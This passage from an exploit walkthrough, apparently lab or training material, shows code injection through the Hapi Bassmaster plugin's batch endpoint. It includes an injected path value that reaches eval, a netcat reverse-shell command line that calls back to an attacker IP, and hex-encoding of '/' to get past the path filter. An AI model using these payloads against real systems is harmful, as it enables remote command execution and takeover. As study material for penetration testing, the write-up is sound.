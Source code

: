 # Crafting Exploit

The Bassmaster plugin comes with an example file `examples/batch.js` that tells us how to perform the request to the `/batch` endpoint. We find that the example code defines 2 ways to reach the batch function, which involves a GET request to `/request`, and a POST request directly to the `/batch` endpoint. 

```jsx
internals.requestBatch = function (request, reply) {

    internals.http.inject({
        method: 'POST',
        url: '/batch',
        payload: '{ "requests": [{ "method": "get", "path": "/profile" }, { "method": "get", "path": "/item" }, { "method": "get", "path": "/item/$1.id" }] }'
    }, function (res) {

        reply(res.result);
    });
};

internals.main = function () {

    internals.http = new Hapi.Server(8080);

    internals.http.route([
        { method: 'GET', path: '/profile', handler: internals.profile },
        { method: 'GET', path: '/item', handler: internals.activeItem },
        { method: 'GET', path: '/item/{id}', handler: internals.item },
        { method: 'GET', path: '/request', handler: internals.requestBatch }
    ]);

    internals.http.pack.register({
        plugin: require('../')
    }, function (err) {

        if (err) {
            console.log(err);
        }
        else {
            internals.http.start(function () {
                console.log('Server started.');
            });
        }
    });
};

```

In the last section, it was seen that the path attribute of our JSON request was “sanitized” with the regex expression `/(?:\/)(?:\$(\d)+\.)?([^\/\$]*)/g;`. We can then use [regex101: build, test, and debug regex](https://regex101.com/) to test out some of the sample input strings. As such, this leads us to the request with path `/item/$1.id;require('util').log('hacked');` that will trigger the `eval` function. When run, there will be output stating “hacked” in our server console (that we started the application from). 

## Debugging

Remember: If exploit fails, we can insert debugging code into the server: `console.log('Execute: ' + parts[i].value);`

When we try to submit a payload as below, we notice that our code injection is getting truncated at the first occurrence of “/”. To check, we place our payload in [Regex101](https://regex101.com/) against the regex filter to see the output. As such, we’ll need to encode our payload so that it won’t be filtered out.

```jsx
cmd: cmd = "require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.234 9001 >/tmp/f')"
Output: Execute: id;require('util').log('require('child_process').exec('rm
```

Since javascript accepts HEX encoding we can substitute out `/` with `\x2f` to replace the values accordingly. Remember to add more `\` in front if we need to escape the string within our Python code.  

Once we’re done, we can use either netcat or NodeJS reverse shell to gain a reverse shell.